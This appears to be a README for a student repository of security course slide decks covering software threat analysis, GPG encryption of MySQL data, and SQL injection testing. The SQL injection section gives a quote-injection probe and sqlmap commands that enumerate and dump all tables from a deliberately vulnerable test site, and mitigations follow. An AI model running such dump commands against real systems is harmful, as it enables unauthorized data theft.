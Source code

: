 # Presentation Repository

## Overview
This repository contains three PowerPoint presentations covering different aspects of application and data security, including static analysis, encryption, and SQL injection testing. Each slide deck is intended for developers, security professionals, and IT students to gain practical knowledge on identifying and mitigating common vulnerabilities.

---

## Contents
- **Presentation Files**
  1. `Software Code & Threat Analysis.pptx`  
     Explores tools, vulnerable libraries, CVEs, and mitigation strategies.
  2. `Secure Data Storage and Encryption using GnuPG.pptx`  
     Demonstrates how to set up MySQL securely and implement GPG encryption for data protection.
  3. `SQL Injection Testing using SQLmap.pptx`  
     Provides a walkthrough of using sqlmap to discover and exploit SQL injection flaws in a target web application.

- **README.md**  
  This file, which explains the purpose, structure, and usage instructions for the repository.

---

## Slide Deck Breakdowns

### 1. Software Code & Threat Analysis
1. **Title Slide**  
   - “Software Code & Threat Analysis Presentation” – Objectives and scope.
2. **Flawfinder**  
   - Overview of Flawfinder for scanning C/C++ source code against CWE listings.
3. **ImageMagick v7.1.0-27**  
   - History (October 2021 release) and associated security risks when processing untrusted images.
4. **Detail/Discover Software Threats**  
   - Guidance on identifying weaknesses in software dependencies and image-processing libraries.
5. **CVE-2022-28463 Mitigation**  
   - Explanation of the ImageMagick-related vulnerability and recommended patch/workaround steps.
6. **FFmpeg v4.4.3**  
   - Overview (released August 26 2021), typical use cases, and multimedia processing vulnerabilities.
7. **Threat Discovery for FFmpeg**  
   - Spotting unsafe library usage, untrusted codecs, and malicious media streams.
8. **FFmpeg Mitigations**  
   - Best practices: updating to a secure FFmpeg version, sandboxing, and safe configuration.
9. **OWASP Dependency-Check**  
   - Introduction to OWASP Dependency-Check as a software composition analysis (SCA) tool for various runtimes (Java, .NET, Ruby, Python, Node.js).
10. **Apache Struts v2.2.3.1**  
    - Historical context (released 2011), common exploit vectors, and notable security incidents.
11. **Threat Discovery in Struts**  
    - Auditing Struts-based applications, identifying outdated components, and risk assessment.
12. **Struts Mitigations**  
    - Upgrading to a secure Struts version, applying vendor patches, and using runtime protections (e.g., WAF rules).
13. **OpenSSL v1.0.1**  
    - Overview (released 2012), significant vulnerabilities (e.g., Heartbleed), and cryptography-related risks.
14. **Threat Discovery in OpenSSL**  
    - Identifying insecure API usage, weak cipher configurations, and out-of-date libraries.
15. **OpenSSL Mitigations**  
    - Best practices: updating OpenSSL, enforcing strong cipher suites, and performing regular cryptographic audits.

---

### 2. Secure Data Storage and Encryption using GnuPG
1. **Title Slide & Group Credits**  
   - “Secure Data Storage and Encryption using GnuPG”  
   - Contributors: Bhargava Reddy Kikkura, Bharath Kumar Uppala, Hari Kiran Gaddam, Bharath Viswa Teja, Vidya Charan Maddala, Rajabinandhan Periyagoundanoor Gopal.
2. **Introduction to Database & MySQL**  
   - Definition of a database.  
   - Overview of MySQL as an open-source RDBMS (speed, reliability, ease of use).
3. **Logging into MySQL & Creating a Database**  
   - Steps to log in as `root`.  
   - SQL commands to create a new database.
4. **Creating Tables in the Database**  
   - SQL statements for defining tables (columns, data types, primary keys).
5. **Inserting Data**  
   - `INSERT` commands demonstrating how to populate tables with sample records.
6. **Creating a User for the Database**  
   - SQL commands to create a dedicated MySQL user and grant appropriate privileges.
7. **GPG Encryption Keys Overview**  
   - Importance of GPG for private digital communication: public/private key pairs, digital signatures, encrypted email, and secure file sharing.
8. **Setting up GPG**  
   - Installation and configuration steps.  
   - Choosing key type and key size, entering user metadata, and creating a strong passphrase.
9. **Exporting Keys to ASCII Files**  
   - Command to export the public key in ASCII-armored format:  
     ```bash
     gpg --export --armor > public_key.asc
     ```  
   - Command to list and export the secret (private) key securely.
10. **Encryption & Decryption Implementation**  
    - Role of encryption: protecting database backups, files, and preventing unauthorized access.  
    - Role of decryption: allowing only authorized users (with correct private key/passphrase) to read protected data.  
    - Example commands:  
      ```bash
      # Encrypt a file for a recipient
      gpg --encrypt --recipient <recipient-email> <file-to-encrypt>

      # Decrypt an encrypted file
      gpg --decrypt <encrypted-file>
      ```
11. **Use Cases & Best Practices**  
    - Encrypting MySQL backups before archiving or transferring off-site.  
    - Secure file-sharing workflows:  
      - Generating a new keypair per user.  
      - Keeping private keys offline.  
      - Rotating keys periodically.

---

### 3. SQL Injection Testing using SQLmap
1. **Title Slide & Course Context**  
   - “SQL Injection Testing using SQLmap”  
   - Database Security (ITMS-528-01), Illinois Institute of Technology, Department of Information Technology and Management.  
   - Contributors: Bhargava Reddy Kikkura, Bharath Kumar Uppala, Hari Kiran Gaddam, Bharath Viswa Teja, Vidya Charan Maddala, Rajabinandhan Periyagoundanoor Gopal. :contentReference[oaicite:0]{index=0}
2. **Scouting the Target Website**  
   - Identifying a live, vulnerable endpoint:  
     ```
     http://testphp.vulnweb.com/listproducts.php?cat=1
     ```  
   - Testing URL parameter injection:  
     ```
     http://testphp.vulnweb.com/listproducts.php?cat='
     ```
3. **Using Nmap on the Target**  
   - Running Nmap to enumerate open ports or services (e.g., HTTP, database ports) before running sqlmap.  
   - Command example (scan flags may vary):  
     ```bash
     nmap -sV testphp.vulnweb.com
     ```
4. **Enumerating Databases with sqlmap**  
   - Basic command to fetch database names:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
     ```  
   - Example result:  
     ```
     acuart  
     information_schema
     ```
5. **Extracting Table Names**  
   - Using `-D` to specify the database and `--tables` to list all tables:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
     ```  
   - Example tables in `acuart`:  
     ```
     Artists  
     Carts  
     Categ  
     Featured  
     Guestbook  
     Pictures  
     products  
     users
     ```
6. **Dumping All Table Data**  
   - Using `-a` (all) to fetch all data from every table automatically:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables -a
     ```
7. **Filtering Specific Information**  
   - Targeting `information_schema` tables to list system metadata:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D information_schema --tables
     ```
   - Finding specific columns in a system table, e.g.,  
     `ADMINISTRABLE_ROLE_AUTHORIZATIONS`:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" \
       -D information_schema -T ADMINISTRABLE_ROLE_AUTHORIZATIONS -columns
     ```
8. **Best Practices & Mitigations**  
   - Demonstrates how to identify injection points, enumerate databases, tables, and columns, and extract sensitive data.  
   - Emphasizes the importance of parameterized queries, ORM protections, input validation, and proper error handling to prevent SQL injection.

---

## How to View the Slide Decks
1. **Clone or Download**  
   ```bash
   git clone https://github.com/<your-username>/<repository-name>.git
   cd <repository-name>
